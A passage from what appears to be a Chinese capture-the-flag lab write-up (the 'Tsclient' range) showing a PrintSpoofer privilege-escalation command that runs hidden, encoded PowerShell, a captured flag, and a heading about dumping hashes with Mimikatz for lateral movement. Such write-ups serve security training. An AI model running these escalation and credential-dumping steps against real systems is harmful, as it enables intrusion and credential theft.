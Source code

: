 ```
shell  C:\Users\Default\AppData\Local\Temp\PrintSpoofer64.exe -i -c "powershell.exe -nop -w hidden -encodedcommand JABzAD0ATgBl....wA="
```

![image-20230806162631753](img/春秋云镜-Tsclient/image-20230806162631753.png)

找到第一个flag

![image-20230806162805107](img/春秋云镜-Tsclient/image-20230806162805107.png)

```
flag01: flag{27e7829f-0fc6-455d-b543-8f2fda5ec2d3} 
```

## 域间渗透

抓hash和猕猴桃

![image-20230806162933191](img/春秋云镜-Tsclient/image-20230806162933191.png)
